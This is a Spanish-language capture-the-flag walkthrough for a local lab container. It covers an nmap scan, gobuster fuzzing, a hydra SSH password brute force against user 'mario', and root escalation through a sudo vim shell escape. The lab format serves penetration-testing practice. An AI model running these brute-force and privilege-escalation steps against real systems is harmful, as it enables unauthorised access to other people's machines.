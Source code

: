 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

Escaneamos la IP:

![Pasted image 20250129163249](https://github.com/user-attachments/assets/90c23bdb-2ae9-4093-8e5a-db4f5ca2c964)

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.18.0.2
```

![Pasted image 20250129163344](https://github.com/user-attachments/assets/cc8d490d-087f-4f88-a79c-0d539683e013)

Hacemos fuzzing:

```Bash
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh
```
![Pasted image 20250129163713](https://github.com/user-attachments/assets/735bf5b0-3137-49bd-8df7-1eea577d0699)

Comprobamos el directorio:

![Pasted image 20250129163612](https://github.com/user-attachments/assets/9e1db405-f2ea-4378-84c2-331fd50ee6db)

Nos dice un nombre (Mario)

```Bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 64
```

![Pasted image 20250129163905](https://github.com/user-attachments/assets/eeaab2a1-c19a-411e-ba23-d399465d4887)

Nos conectamos con SSH

```Bash
ssh mario@172.18.0.2
```

![Pasted image 20250129163946](https://github.com/user-attachments/assets/16477f3d-fb19-4a7d-8846-f50e653a75f7)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129164036](https://github.com/user-attachments/assets/31b94fbc-f85b-4e14-a1f5-13f25a594e48)

```Bash
sudo vim -c ':!/bin/bash'
```

![Pasted image 20250129164103](https://github.com/user-attachments/assets/b696e89f-0625-4fd9-9e07-b4f7b7910966)

o también:

```Bash
sudo -u root /usr/bin/vim
```

![Pasted image 20250129164139](https://github.com/user-attachments/assets/3c87b144-bf66-4b67-9627-7a70fecdc133)

```Bash
:!/bin/bash
```

![Pasted image 20250129164211](https://github.com/user-attachments/assets/0d3ef320-30bb-411c-a8f5-1510e99295d0)

![Pasted image 20250129164233](https://github.com/user-attachments/assets/10e9dea0-638c-4206-8225-eafaa57d0c31)

Otra forma de elevar:

```Bash
sudo -u root /usr/bin/vim -c ':!/bin/bash'
```

![Pasted image 20250129164322](https://github.com/user-attachments/assets/2c93b86b-0e35-4012-80b0-c8c82fecfece)

```Bash
whoami
```

![Pasted image 20250129164345](https://github.com/user-attachments/assets/865a8fbf-e26d-44f8-8d5b-6f6194e96d6d)
